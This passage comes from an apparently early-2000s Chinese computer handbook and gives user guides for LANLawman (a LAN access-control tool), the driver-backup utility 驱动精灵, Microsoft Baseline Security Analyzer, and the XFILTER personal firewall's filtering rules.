- 1. 运行主界面（如图9-2-1）。程序实时查找本机所在子网内的所有上线机器添加到列表中，这是个很消耗 CPU 时间的过程，没有 PIII 机器不要运行此程序，以免陷入死机状态。开始时状态列的小电脑是绿灯，如果此后有哪个机器下线，则小电脑变灰；限制过的机器小电脑上有 X。列表中在线的机器就是你能管理的机器了。

图9-2-1

- 2. 使某台在线机器不能上网。通过菜单栏和列表的右键均可做到（下同）。一是选择“管理”，出现如图9-2-2所示的对话框；选择限制方式（一般只在“断开与其他机器的 TCP/IP 连接”前打钩），然后按“开始”，进行临时的上网限制，但只能同时针对一台机器；按“结束”停止这次限制。二是选择“权限”，出现如图9-2-3所示对话框，选择不同上网权限，如果不是无限制，则限定方式同上。控制多台机器的上网权限，只要不取消限制，则只带有这块网卡的机器始终不能上网。

图9-2-2  
图9-2-3

- 3. 对暂时没有上网的机器实行限制：一是选择“登记新网卡”，如图9-2-4所示；二是按“设置”菜单中的“默认权限”命令，出现如图9-2-5所示对话框，对启动 LANLawman 后上线的机器进行统一的上网限制。  
- 4. 取消对上网机器的限制：通过“注销”每一块被管理网卡（如图9-2-6）或者把该网卡的权限设置为无限制实现。


图9-2-4

图9-2-5

图9-2-6

主要的功能介绍完毕，其他一些辅助功能留给读者自己学习吧。接下来我把我试用过程中的一些体会与大家分享。

- 1. 局域网的本机所在子网主机不宜过多，一般不大于254台；同时网络架构基于集线或交换（交换级联）环境。  
- 2. 管理机最好选用 PII 级以上机器，因为管理机会监视和截获网络中的数据。对于上线主机很多的情况，运行 LANLawman 时会有程序无响应发生，且正常运行时 CPU 时间也会严重占用。  
- 3. 因为局域网上的任何一台机器都能做管理机，所以担心任何用户都会进行此种管理，那将是灾难。对于此工具，开发者说正版能进行各版本的协调和控制。因为只有试用版，所以也未尝试。  
- 4. 限制功能很有效，但是取消限制后，限制过的机器必须等上几分钟才能恢复正常上网，且最终不能恢复正常上网的现象发生频率不低。当然，重启以后就正常了。  
- 5. 因为此工具是对网卡的限制，所以机器换网卡必须进行相应的调整。好在调整也方便。

总的来说，这是一款不错的局域网实时管理软件，虽然其中也有诸多不完善，会影响网络的速度和稳定，但是它提供了局域网管理的新思路，值得推崇。希望开发者能有更好的版本推出。

### 9.3 系统驱动备份轻松上手——驱动精灵使用指南

如今，电脑系统瘫痪是屡见不鲜的事，之后就是重装系统，还要装各个硬件的驱动，多麻烦啊。还是来和我一起学习驱动精灵的应用指南吧。鉴于笔者也是初学，如有不对的地方，请大家给予指正。

首先介绍一下驱动精灵：它是一款强大的驱动程序专业应用工具软件，由业内知名专业站点驱动之家（http://www.mydrivers.com/）推出。主要有如下几项特色：

- 1. 更专业的驱动备份功能。能够检测用户计算机系统中的硬件设备，将全部或任意部分硬件的驱动程序提取备份出来，并能够将备份出来的驱动程序做成 Zip 压缩文件或自解压文件。速度敏捷，可以你想像不到的速度全部完成。通过驱动备份功能，大家可以完全免去重新安装系统后驱动程序丢失的烦恼，多台同配置机器也不再需要数不胜数的驱动光盘了。此外，软件还支持局域网备份功能。  
- 2. 直接更新驱动程序。内置高达25000余条记录的驱动数据库，提供向导模式和搜索引擎模式，利用驱动之家庞大的驱动资料库，用户可以准确定位硬件的最新驱动。线下查找驱动更新，然后再连上网络，利用下载功能下载驱动程序，省时省力。  
- 3. 智能升级功能。驱动之家网站每天都会更新大量的驱动程序下载资讯，利用智能升级功能，可以让你的驱动精灵软件与驱动之家网站随时保持同步，最新驱动程序尽在掌握！此外，在用户同意的情况下，如果驱动精灵软件出现了新的版本，智能升级功能还能够完成对自身的升级。

以上是一些简要的介绍，下面给大家具体介绍它的应用。  
首先到它的主页把它下载下来，是一个安装程序，一路回车就可以完成安装。运行驱动精灵，出现图9-3-1界面。是一个很友好的界面。

要备份，首先就要搜索你要备份的驱动，之后你才可以选中、备份。具体步骤：先点击“搜索驱动”旁边的小三角，如图9-3-2所示，选中你要备份的驱动，点击“备份驱动”出现图9-3-3提示，选择“是”之后，软件以你想像不到的速度在你的 C 盘下备份成功，如图9-3-4所示。


图9-3-1


图9-3-2


图9-3-3


图9-3-4

如果你要更新，可以点击工具栏“更新驱动”出现如图9-3-5所示界面。之后你还可以自己查找，比如我喜欢“大水牛”的显示器，就可以直接搜索，如果搜索到了，它就会告诉你。如图9-3-6所示。

如果你需要安装驱动的话，直接点击工具栏上的“安装驱动”之后就出现了你熟悉的界面。  
当然，该软件功能还不止是备份驱动，你也可以有更多的备份，只要你点击工具栏上的“更多备份”之后就可以“为所欲为”了。见图9-3-7所示。  
你还可以选择备份的方式，如图9-3-8所示，这样可以大大节约我们有限的硬盘空间。怎么样？想得很周到吧。最后是“在线升级”，有兴趣的朋友可以试试。


图9-3-5


图9-3-6


图9-3-7


图9-3-8

### 9.4 Microsoft Baseline Security Analyzer 使用手记

IIS 漏洞层出不穷一直让微软头疼不已，最近 MSSQL 又被发现有漏洞可以被远程溢出。尽管微软一直告诫用户要留意发布的安全公告，并及时更新系统组件和安装 Service Pack，但是效果显然并不明显，很多管理员依然不知道系统漏洞究竟出在哪些方面，需要安装哪些补丁来修补。鉴于这种情况，微软继 IIS Lockdown Tools 之后又推出了一款新的系统安全分析工具——Microsoft Baseline Security Analyzer（中文名为微软基准安全分析器，下文简称 MBSA）。

我们可以到 http://www.microsoft.com/technet/treeview/default.asp?url=/technet/security/tools/Tools/MBSAhome.asp 下载这款免费系统安全分析工具，文件大小 2.73MB。

MBSA 的安装很简单，安装完毕之后自动在桌面生成一个快捷方式，双击进入主界面。MBSA 的界面很简洁，功能按钮排列在左边，单击功能按钮则在右面窗口显示程序的主界面。通过查看 MBSA 的帮助文件，我们得知 MBSA 是为 NT 版本以上的 Windows 系统开发的，可以扫描单机或者一个网段内的主机，主要有5个扫描项目：

- 1. **Windows vulnerability checks**［Windows 系统漏洞检测，主要包括 Guest 账号的状态、文件系统格式、可用共享、管理员组成员等。］  
- 2. **Weak passwords check**［弱密码检测，主要测试密码强度，时间长短视用户多少而定。在扫描域控制器时可跳过此项。］  
- 3. **Internet Information Server (IIS) vulnerability checks**［扫描 IIS4/5 漏洞，给出检测报告和修补说明，检测是否安装 IIS Lockdown Tools 等。］  
- 4. **SQL vulnerability checks**［MSSQL7.0/2000 漏洞检测，主要检测验证模式、密码状态、账号的成员人数等。］  
- 5. **Security updates check**［利用 HFNetChk tool 对照微软数据库，完整地检测系统缺少哪些安全补丁。］

并给出详细报告。

以扫描单机为例，点击 Pick a computer to scan（图9-4-1），在 Computer Name 中填写扫描的计算机名称，或者直接在 IP Address 中填写该机器的 IP 地址，选择要扫描的项目，按 Start Scan 即可开始。稍后，MBSA 会给出一份详细的检测报告（如图9-4-2），报告采用 HTML 格式，直观清晰，便于保存。比较严重的系统漏洞都会用一个红叉来标记，标记下面有3个选项：


图9-4-1

图9-4-2

- 1. 扫描了什么内容（What was scanned）；  
- 2. 详细结果（Result Details）；  
- 3. 如何修复（How to correct this）；

这样，管理员就可以比较轻松地弥补这个漏洞。如图2中所示：MBSA 在 Windows 系统漏洞检测项中，检测到文件系统不是 NTFS 格式的，MBSA 建议我们将文件系统转换为 NTFS 格式，以便给用户分配访问权限，限制用户非法访问机密数据。并给出了具体的实现办法给我们参考。针对某些比较复杂的安全问题，除了文字描述外，用户还可以直接点击详细结果（Result Details）来查看更为直观的示意图。

如果要扫描一个网段内的一组主机，只需点击“Pick multiple computers to scan”，然后在 IP address 项内填入这组主机的 IP 地址，即可开始扫描；在保证网络连接的情况下，MBSA 会分别给出每一台计算机的安全分析报告和详细解决方案。这样就大大减轻了管理员的工作负担。如果管理员能够对照 MBSA 给出的解决方案去安装补丁或修改系统配置，那么我们的基于 Windows 的网络的安全性一定会大大增强的。

### 9.5 网络安全的双重保护

目前的 PC 防火墙类型主要分为网络层和应用层，常见的“天网个人防火墙”属于应用层防火墙，“黑冰”（BlackICE）属于网络层防火墙。这两种类型的防火墙各有优势，也各有其欠缺之处。如果结合它们各自的优点，摒弃缺点，开发出来的防火墙产品就能更好地满足个人的需求。费尔个人防火墙（XFILTER Personal Firewall）就是按照这个要求开发出的新一代 PC 防火墙。

#### 一、基本功能

费尔个人防火墙基本功能包括应用层/核心层双重过滤，完全管控 TCP/IP 网络封包；防出墙/防入墙双墙防护，防止信息泄漏和外来攻击；对网上邻居共享资源的全面控管，做到局域网安全；对 ICMP（PING）的控制，有效保护 IP 地址安全；功能强大的日志记录功能。

另外，费尔个人防火墙在人性化上作了优化，其人性化功能包括网络状态指示器、流量示波器、封包监视器，生动地展现网络状态；全程交互式管控中心自动生成器，对任何情况的网络动作都可以动态、交互式、自动生成管控中心，最大程度地方便操作。人性化的用户界面融合强大的控管能力，既可满足一般用户简单易用的需求，也可以让专业人士进行复杂的安全防范配置。

生动、易用、美观、功能强大的费尔个人防火墙，将为你营造一个充满乐趣的安全网络。

#### 二、主要技术特点

费尔个人防火墙的主要技术特点：一是应用层采用 Winsock 2 SPI 进行网络数据控制、过滤；二是核心层采用 NDIS HOOK 进行控制，尤其是在 Win 2000 下，此技术属微软未公开技术，它比微软公开的 TDI 和 IMD 有一定的优势。微软公开的 TDI 不能拦截接收的 ICMP 封包，IMD 自动化安装困难。

费尔个人防火墙采用两种封包过滤技术：一是应用层封包过滤，采用 Winsock 2 SPI；二是核心层封包过滤，采用 NDIS-HOOK。

Winsock 2 SPI 工作在 API 之下、Driver 之上，属于应用层的范畴。利用这项技术可以截获所有的基于 Socket 的网络通信。比如 IE、OUTLOOK 等常见的应用程序都是使用 Socket 进行通信。采用 Winsock 2 SPI 的优点是非常明显的：其工作在应用层，以 DLL 的形式存在，编程、调试方便；跨 Windows 平台，可以直接在 Windows 98/ME/NT/2000/XP 上通用，Windows 95 只需安装上 Winsock 2 for 95，也可以正常运行；效率高，由于工作在应用层，CPU 占用率低；封包还没有按照低层协议进行切片，所以比较完整，很容易做内容过滤；做防色情之类的软件，不用根据具体的浏览器进行分别编程，既简单又安全。

#### 三、下载及安装

可以直接到网站“http://www.xfilter.com”下载，软件为汉语版本。根据使用的操作系统，下载相应程序。

运行安装程序 xfilter2.exe，按提示的对话框进行操作即可完成安装，安装后需要重新启动计算机。标准版用户在第一次启动时会要求进行用户注册，用户注册是完全免费的。如果注册没有成功，则在每次启动时都会询问，直到注册成功为止。其他版本用户，按一定规律提示用户购买注册码，并完成注册。

安装之后，如果要卸载的话，一定要按照 开始 -> 程序 -> 费尔个人防火墙 -> 卸载费尔个人防火墙，或者 控制面板 -> 添加/删除程序 -> 费尔个人防火墙 -> 删除 完成卸载，而不能直接删除文件。直接删除文件无法恢复系统配置，可能导致网络瘫痪，所以一定要使用卸载程序卸载。

安装完成后，会在桌面右下角生成一个小图标（如图9-5-1），表示程序已经在后台运行。


图9-5-1

图9-5-2

鼠标右击此图标，选择“主界面”，出现程序主界面（如图9-5-2）。

#### 四、设置

- 1. 使用封包监视器  
  - 1. 应用程序封包监视：除了监视一般应用程序的网络封包之外，还监视系统程序产生的网络封包。另外，网上邻居的计算机名字服务（137端口）和数据报服务（138端口）也在此处监视（如图9-5-3）。


图9-5-3

  - 2. 网上邻居封包监视：仅用来监视网上邻居资源共享的网络封包，端口为139。  
    ICMP 封包监视：用来监视 ICMP 封包，主要应用是 PING 应用程序。可以利用 ICMP 监视器，分析是否有人在探测自己的 IP 地址。  
  - 3. 侦听端口：列举出本地计算机的侦听端口。  
  - 4. 当前连线：列举出本地计算机当前存在的网络连线。当网络连线结束后会将封包发送到应用程序封包监视器或者网上邻居封包监视器中，并根据配置保存日志。

注意：由于 TCP 连接产生数据封包较多，如果完全监视将严重影响效率，所以，对于 TCP 连接，仅仅监视了连接的建立和结束时的封包。另外，将实际流量全程监视并在连线结束后显示在封包监视器中，并根据配置保存到日志。在封包监视中使用了一些关键字标识封包状态，比如：RECV 表示接收；SEND 表示发送/接收。在该软件的帮助中有详细的关键字说明。

### 2. 设置安全等级和工作模式

图2的状态指示实际上是一个示波器，示波器以图形的方式显示网络流量状态，可以比较直观地观测到网络使用情况。当网络流量超过示波器的最大显示范围时，默认按示波器的最大值显示。

在状态指示页面中显示了比较关心的参数信息，其中包括时间、流量、放行封包、拒绝封包、工作模式、管控中心状态、安全等级等信息。根据这些参数可以综合判断网络使用情况以及控管程度和安全等级。进入“状态指示”页面，拖动“安全等级”的滑动条便可以进入相应的安全等级。安全等级分为3级：

- ❖ 高：如果管控中心为询问状态，当弹出询问对话框时，会自动生成比较严格的管控中心。比如应用程序 IE.EXE 向 IP 为 192.168.0.1 的 80 端口发出连接请求，则自动生成对 IE.EXE、192.168.0.1、80 同时匹配的管控中心。也就是说，当 IE.EXE 再访问 192.168.0.1 的 81 端口都将再次被询问，这样配置的安全等级较高，但同时会造成繁琐的询问，用户可以根据需求选择此项设置。  
- ❖ 中：网上邻居和 ICMP 连出时，如果需要询问，默认放行。另外，如果管控中心为询问状态，当弹出询问对话框时，会自动生成一般的管控中心。比如应用程序 IE.EXE 向 IP 为 192.168.0.1 的 80 端口发出连接请求，则自动生成仅对 IE.EXE 匹配的管控中心。也就是说，当 IE.EXE 再访问 192.168.0.1 的 81 端口将符合刚才生成的管控中心，这样配置的安全等级适度，询问次数适度，可以满足一般的安全需求，作为默认配置。  
- ❖ 低：当遇到需要询问时，不再弹出询问对话框，而是默认放行。如果自己的管控中心已经较为全面，可以选择这个设置，这样在保证安全性的同时，又可以减少询问的麻烦。这样做安全等级较低，不过可以带来使用上的方便，用户可以根据需要选择此项配置。

注意：安全等级设置没有直接改变管控中心设置，但是它的等级高于管控中心，优先于管控中心进行检查。通常情况下，安全等级与管控中心配合执行，执行状态如上面的解释。

总工作模式分为3类，分别为：

- 拒绝所有：阻断所有网络连接；  
- 过滤：根据管控中心配置进行过滤；  
- 放行所有：放行所有网络连接。

在主界面右下方有红、黄、绿3个彩色指示灯，红色代表拒绝所有，黄色代表询问，绿色代表放行所有；当前选中的用高亮表示。单击指示灯便可进行相应的工作模式。也可以在系统任务栏本软件的图标上单击鼠标右键，在弹出菜单中设置工作模式。

### 3. 设置过滤模式

过滤模式分为设置应用程序过滤模式、WEB 站点过滤模式、网上邻居过滤模式和设置 ICMP 过滤模式。

###### （1）设置应用程序过滤模式

应用程序过滤模式包括：

- 无限制：放行所有应用程序过往封包；  
- 禁止连入：拒绝所有连接本地应用程序的请求；  
- 禁止连出：拒绝所有本地应用程序发出的连接请求；  
- 双向禁止：拒绝所有应用程序的连入和连出请求；  
- 使用管控中心：根据管控中心对连接进行合法性检查，如果没有匹配的管控中心，将按照配置发出询问、直接拒绝或者直接放行。

进入“管控中心”的“应用程序”页面，设定相应的过滤模式，按“应用”按钮保存设置，或者按“撤消”按钮取消设定。见图9-5-4。


图9-5-4

应用程序管控中心包括的内容包括：

- 应用程序：用来选定要控管的应用程序，* 表示控管所有应用程序；  
- 目的网络：用来设定要控管的目的网络类型；  
- 访问时间：用来设定要控管的时间类型；  
- 连线方向：用来设定要控管的连线方向；  
- 管制动作：设定于这条规则匹配时如何处理，放行或者拒绝；  
- 协议：设定要控管的网络协议；  
- 本地端口：设定要控管的本地端口（侦听端口）；  
- 远端端口：设定要控管的远端端口；  
- 备注：用来说明这条规则的含义；  
- 注释：在管控中心编辑的对话框中的注释栏，根据当前设定的管控中心属性自动组织成完整的句子，以方便地了解这条管控中心的含义。

另外，还可以增加、修改、删除应用程序管控规则。图9-5-5为增加应用程序管控规则的设置界面。

### （2）Web站点过滤模式

Web站点过滤模式包括：

- 无限制：放行对所有站点的访问；
- 使用管控中心：根据管控中心对站点合法性检查，如果没有匹配的管控中心，将按照配置发出询问、直接拒绝或者直接放行。

要设置Web站点过滤模式，进入“管控中心”的“网站”页面，设定相应的过滤模式，按“应用”按钮保存设置，或者按“撤销”按钮取消设定。见图9-5-6。也可以增加、修改、删除和撤销网站过滤规则。

Web站点管控中心内容包括：

- 站点：站点名称；
- 动作：设定于这条规则匹配时如何处理，放行或者拒绝；
- 备注：用来说明这条规则的含义。

注意：站点名称比较时不是采用全字匹配，而是检查URL中是否含有设定的站点名称。比如：设定www.xfilt.com，则www.xfilt.com/default.asp同样会被管控。同理，如果设定xfilt.com，则images.xfilt.com同样会被管控。所以，可以利用这一个特性限定整个站点。

###### （3）网上邻居过滤模式

网上邻居过滤模式包括：

- 无限制：放行所有访问网上邻居共享资源的过往封包；
- 禁止连入：拒绝所有连接本地共享资源的请求；
- 禁止连出：拒绝所有本地向远端发出的共享资源请求；
- 双向禁止：拒绝所有共享资源的连入和连出请求；
- 使用管控中心：根据管控中心对共享资源的使用进行合法性检查，如果没有匹配的管控中心，将按照配置发出询问、直接拒绝或者直接放行。

要设置网上邻居过滤模式，进入“管控中心”的“网上邻居”页面，设定相应的过滤模式，按“应用”按钮保存设置，或者按“撤销”按钮取消设定。见图9-5-7。

网上邻居管控中心包括的内容包括：

- 网上邻居：设定要管控的网上邻居主机名称，*代表所有网上邻居；另外，可以采用自定义模式设定列表中没有显示的网上邻居；
- 访问时间：用来设定要管控的时间类型；
- 连线方向：用来设定要管控的连线方向；
- 管制动作：设定于这条规则匹配时如何处理，放行或者拒绝；
- 备注：用来说明这条规则的含义。

### （4）ICMP过滤模式

ICMP过滤模式包括：

- 无限制：放行所有ICMP（PING）过往封包；
- 禁止连入：阻止PING入；
- 禁止连出：阻止PING出；
- 双向禁止：拒绝所有ICMP（PING）过往封包；
- 使用管控中心：根据管控中心对ICMP封包进行合法性检查，如果没有匹配的管控中心，将按照配置发出询问、直接拒绝或者直接放行。

要设置ICMP过滤模式，进入“管控中心”的“ICMP”页面，设定相应的过滤模式，按“应用”按钮保存设置，或者按“撤销”按钮取消设定。见图9-5-8。

图9-5-7    图9-5-8

ICMP管控中心包括的内容：

- 远端网络：用来设定要管控的目的网络类型；
- 访问时间：用来设定要管控的时间类型；
- 连线方向：用来设定要管控的连线方向；
- 管制动作：设定于这条规则匹配时如何处理，放行或者拒绝；
- 备注：用来说明这条规则的含义。

注意：总工作模式的优先级最高，凌驾于其他过滤模式之上。如果总工作模式不是过滤，则其他过滤模式将被忽略。其他的过滤模式为同等级别，互不影响。

除了设置预定管控中心的过滤模式外，用户还可以增加、删除和修改管控中心。具体做法是进入“管控中心”页面，选择要增加管控中心的类别，目前有“应用程序”、“Web站点”、“网上邻居”和“ICMP”，按“增加”按钮，会弹出相应的管控中心编辑对话框，按自己的需求设定管控中心，然后按“确定”按钮返回。新的管控中心显示在列表框中，此时管控中心并没有被真正地保存和应用，要想保存和应用新添的管控中心，必须按“应用”按钮。如果要撤销所做的修改，按“撤销”按钮。

要修改管控中心，进入“管控中心”页面，双击要修改的管控中心，会弹出相应的管控中心编辑对话框，修改后按“确定”按钮返回。此时，修改后的管控中心并没有被真正地保存和应用，要想保存和应用新添的管控中心必须按“应用”按钮。如果要撤销所做的修改，按“撤销”按钮。

要删除管控中心，进入“管控中心”页面，选中要删除的管控中心，按“删除”按钮，管控中心从列表框中被删除。但是，此时并没有真正从文件中删除，要想真正从文件中删除，必须按“应用”按钮。如果要撤销所做的修改，按“撤销”按钮。

在指定管控中心的时候，很可能会出现一条管控中心包含另外一条管控中心的情况。比如，首先制定了一条应用程序管控中心，应用程序为“*”，目的端口为80，用来限制HTTP服务；而接着又制定了一条规则，应用程序为“IE.EXE”，目的端口为80，用来限制IE的HTTP服务。很显然，第一条管控中心包含第二条管控中心。如果第一条管控中心编号小于第二条，则首先比较第一条规则，这就意味着第二条规则永远不会被使用；当第一条设置成拒绝，第二条设置成放行，这时IE同样会被拒绝，因为当比较第一条时，已经将连线拒绝了。所以在设计管控中心时，一定要注意规则的包含和比较顺序，因为这可能造成一些管控中心失效。

另外，在这里还可以指定时间类型和网络类型。

### 时间类型

时间类型包括：

- 任何时间：任何时间，不可编辑；
- 工作时间：默认工作日的9点到18点，可自定义；
- 工作日业余时间：工作日的业余时间，可自定义；
- 周末：周末的全部时间，可自定义；
- 约束时间：拒绝时的时间，可自定义；
- 信任时间：放行时的时间，可自定义；
- 自定义时间：可自定义。

要设置时间类型，进入“管控中心”->“时间类型”->“选定要设定的时间类型”->“设定星期值”->“设定时间段”->“应用”。

注意：时间段采用24小时制式，开始时间和结束时间都为0时表示全天；开始时间大于结束时间时表示一天的头尾两个时间段。比如：18点~9点，表示一天中的18点~0点和0点~9点两个时段。

### 网络类型

网络类型包括：

- 所有网络：所有IP地址；
- 局域网：默认IP地址范围192.168.0.0~192.168.255.255，可自行修改；
- 受约束的网络：默认无，可自行定义；
- 信任的网络：默认无，可自行定义；
- 自定义网络：默认无，可自行定义。

除了“所有网络”之外，其他的网络类型都可以自行定义。每一个网络类型可以定义多组IP地址段。

使用“管控中心”->“网络类型”的“添加”、“修改”、“删除”按钮可以完成IP地址段的增加、修改和删除。

注意：网络地址段要求开始IP地址小于等于结束IP。当开始IP等于结束IP时表示只对这一个IP地址做限制。

费尔个人防火墙的系统日志和在线功能也是十分强大的。在主界面的“系统设置”中可以对系统日志进行进一步设置。在“在线资源”中，可以方便地手动或自动检查新版本。见图9-5-9。

图9-5-9

当然，费尔个人防火墙也不是没有缺陷。它采用Winsock 2 SPI，对不使用Socket的网络通信无法拦截，比如：使用NetBios的网上邻居和使用ICMP协议的Ping；微软对SPI设计的问题，导致如果安装顺序出错，很容易造成网络瘫痪，这意味着如果同时安装几个使用SPI技术的软件，而且有使用非标准安装方式的软件，有的被绕过，或者不能正常网络通信。所以，建议编写SPI程序一定要用标准的安装方式。

费尔个人防火墙标准版出售源代码，详细信息请浏览该软件的网站http://www.xfilt.com。这就为用户的二次开发带来极大方便，用户可以开发出针对自己个体需求的防火墙软件。因为公开出售的防火墙软件，极易被黑客攻破，而用户自己开发的防火墙软件，采用的技术是针对个体的，黑客要攻破是不容易的。这正如Linux操作系统比Windows操作系统相对安全一样，因为用户可以改变操作系统的内核。